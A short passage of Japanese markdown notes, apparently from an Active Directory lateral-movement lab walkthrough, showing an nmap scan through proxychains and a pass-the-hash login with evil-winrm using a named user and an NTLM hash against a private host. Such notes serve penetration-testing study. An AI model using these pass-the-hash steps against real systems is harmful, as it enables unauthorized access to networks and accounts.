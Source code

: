 ![image-20230416223949150](img/ActiveDirectory_lateralmove/image-20230416223949150.png)

nmapを行う

```
proxychains4 nmap 10.10.44.142
```

![image-20230416224322071](img/ActiveDirectory_lateralmove/image-20230416224322071.png)

Pass the hashする

```
proxychains4 evil-winrm -i 10.10.44.142 -u celia.almeda -H e728ecbadfb02f51ce8eed753f3ff3fd
```

![image-20230416224917553](img/ActiveDirectory_lateralmove/image-20230416224917553.png)
